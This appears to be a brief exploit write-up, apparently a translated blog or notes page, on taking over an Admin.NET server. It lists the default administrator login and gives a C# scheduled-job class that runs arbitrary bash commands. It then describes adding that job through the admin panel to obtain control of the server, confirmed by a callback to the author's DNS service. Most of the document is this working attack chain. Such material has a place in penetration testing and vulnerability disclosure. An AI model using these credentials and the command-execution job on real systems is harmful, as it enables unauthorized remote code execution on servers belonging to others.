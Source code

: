 



# Admin.NET

github:https://github.com/zuohuaijun/Admin.NET



Default account password:superadmin / 123456

![image-20240222165158445](adminnet.assets/image-20240222165158445.png)





code

```c
using Furion;
using Furion.Logging;
using Furion.RemoteRequest.Extensions;
using Furion.Schedule;
using Microsoft.Extensions.DependencyInjection;
using System;
using System.Diagnostics;
using System.Threading;
using System.Threading.Tasks;

namespace Admin.NET.Core
{
    [JobDetail("YourJobId")]
    public class DynamicJob : IJob
    {
        private readonly IServiceProvider _serviceProvider;

        public DynamicJob(IServiceProvider serviceProvider)
        {
            _serviceProvider = serviceProvider;
        }

        public async Task ExecuteAsync(JobExecutingContext context, CancellationToken stoppingToken)
        {
            using var serviceScope = _serviceProvider.CreateScope();
            ExecuteCommand("ifconfig");
        }

        private void ExecuteCommand(string command)
        {
            var processStartInfo = new ProcessStartInfo
            {
                FileName = "/bin/bash",
                Arguments = $"-c \"{command}\"",
                RedirectStandardOutput = true,
                UseShellExecute = false,
                CreateNoWindow = true
            };

            var process = new Process { StartInfo = processStartInfo };
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            process.WaitForExit();
            Console.WriteLine(output);
        }
    }
}

```



Select to add a new task in system task scheduling

![image-20240222165853377](adminnet.assets/image-20240222165853377.png)



![image-20240222165945353](adminnet.assets/image-20240222165945353.png)

Write the prepared C language code and run the task to obtain control permissions on the server

![image-20240226142056330](adminnet.assets/image-20240226142056330.png)

After modifying the script, I found that it can be run directly, and then my DNS service received feedback

![image-20240226142241209](adminnet.assets/image-20240226142241209.png)